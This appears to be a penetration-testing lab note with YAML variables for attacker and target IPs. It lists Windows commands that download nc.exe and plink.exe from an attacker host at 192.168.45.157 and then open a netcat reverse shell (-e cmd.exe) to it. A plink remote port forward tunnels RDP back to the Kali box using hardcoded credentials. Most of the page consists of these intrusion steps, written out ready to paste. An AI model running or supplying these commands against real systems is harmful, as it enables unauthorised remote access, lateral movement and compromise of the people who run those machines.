 ```yaml
---
IP_KALI: 192.168.45.157
IP_MULTISERVER: 
PORT_KALI: "3389"
PORT_MULTI: "9833"
---
```

powershell wget -Uri http://192.168.45.157/nc.exe -OutFile C:\Windows\Temp\nc.exe
C:\Windows\Temp\nc.exe -e cmd.exe 192.168.45.157 4446
powershell wget -Uri http://192.168.45.157/plink.exe -OutFile C:\Windows\Temp\plink.exe
![[Pasted image 20241004131705.png|700]]

Setup remote port forward using Plink on windows MULTISERVER:
- C:\Windows\Temp\plink.exe -ssh -l kali -pw kali -R 127.0.0.1:<span id="PORT_MULTI"/>9833<span type="end"/>:127.0.0.1:<span id="PORT_KALI"/>3389<span type="end"/> <span id="IP_KALI"/>192.168.45.157<span type="end"/>